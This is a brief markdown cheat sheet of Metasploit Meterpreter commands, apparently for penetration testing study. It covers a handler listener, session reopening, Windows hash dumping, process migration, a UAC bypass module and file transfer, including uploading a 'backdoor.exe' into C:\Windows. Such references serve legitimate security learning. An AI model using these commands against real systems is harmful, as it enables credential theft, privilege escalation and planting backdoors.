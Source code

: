 # Common Meterpreter Commands

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/


#### Multi handler:
```
use exploit/multi/handler
```


#### Reopen session:
```
session -i #
```


#### Get hashes:
```
run post/windows/gather/hashdump
```


#### migrate:
```
run post/windows/manage/migrate
```
or
```
use post/windows/manage/archmigrate
```

#### Bypass UAC:

Use with an already achieved meterpreter shell:

- `use exploit/windows/local/bypassuac`
- `set SESSION <#>`
- `exploit`

This can be used to enable the `getsystem` command to work (potentially).

#### Upload and download files:

`meterpreter > download Logs.log /root/`
`meterpreter > upload /root/backdoor.exe C:\\Windows`